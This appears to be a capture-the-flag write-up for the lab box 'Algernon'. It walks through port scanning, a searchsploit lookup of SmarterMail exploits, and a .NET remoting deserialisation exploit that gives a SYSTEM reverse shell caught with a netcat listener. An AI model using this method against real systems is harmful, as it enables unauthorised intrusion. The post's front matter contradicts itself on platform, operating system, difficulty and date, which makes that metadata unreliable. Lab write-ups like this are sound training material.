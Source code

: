 ```yaml
---
layout: post
title: Proving Grounds - Algernon
date: 2020-09-18 12:16:22 +0100
description: Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.
img: luke.png
fig-caption: Luke
categories: HackTheBox
tags: [Medium, FreeBSD, Retired, CTF]
---
```

## Overview
Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.

## Enumeration
The initial scan reveals a fair number of open ports
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p- -T4 192.168.200.65
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 17:54 BST
Nmap scan report for 192.168.200.65
Host is up (0.092s latency).
Not shown: 65528 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9998/tcp  open  distinct32
17001/tcp open  unknown
```
After some initial enumeration a SmarterMail mail server is found on port 9998. Searching exploitdb reveals a number of vulnerabilities. With the "Remote Code Execution" vulnerability being of particular interest.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ searchsploit smartermail
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SmarterMail 16 - Arbitrary File Upload                                                                                     | multiple/webapps/48580.py
SmarterMail 7.1.3876 - Directory Traversal                                                                                 | windows/remote/15048.txt
SmarterMail 7.3/7.4 - Multiple Vulnerabilities                                                                             | asp/webapps/16955.txt
SmarterMail 8.0 - Multiple Cross-Site Scripting Vulnerabilities                                                            | asp/webapps/16975.txt
SmarterMail < 7.2.3925 - LDAP Injection                                                                                    | asp/webapps/15189.txt
SmarterMail < 7.2.3925 - Persistent Cross-Site Scripting                                                                   | asp/webapps/15185.txt
SmarterMail Build 6985 - Remote Code Execution                                                                             | windows/remote/49216.py
SmarterMail Enterprise and Standard 11.x - Persistent Cross-Site Scripting                                                 | asp/webapps/31017.php
smartermail free 9.2 - Persistent Cross-Site Scripting                                                                     | windows/webapps/20362.py
SmarterTools SmarterMail 4.3 - 'Subject' HTML Injection                                                                    | php/webapps/31240.txt
SmarterTools SmarterMail 5.0 - HTTP Request Handling Denial of Service                                                     | windows/dos/31607.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
In the vulnerability we find that it relies on a .NET remote endpoint being available, thankfully this endpoint does seem to be exposed.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p17001 -sV 192.168.200.65                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 19:20 BST
Nmap scan report for 192.168.200.65
Host is up (0.093s latency).

PORT      STATE SERVICE  VERSION
17001/tcp open  remoting MS .NET Remoting services
```
## Foothold
Having identified the vulnerability during enumeration, getting a shell is as simple as updating the LHOST nad LPORT in the script. Though we must make sure to use a port that is not blocked by the firewall, which in this case port 80 proved to work.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ nc -nlvp 80                                                                                                                                         
listening on [any] 80 ...
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.65] 49892

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32>
```
## Privilege Escalation

Privilege escalation is not required as we got a system shell directly from the foothold
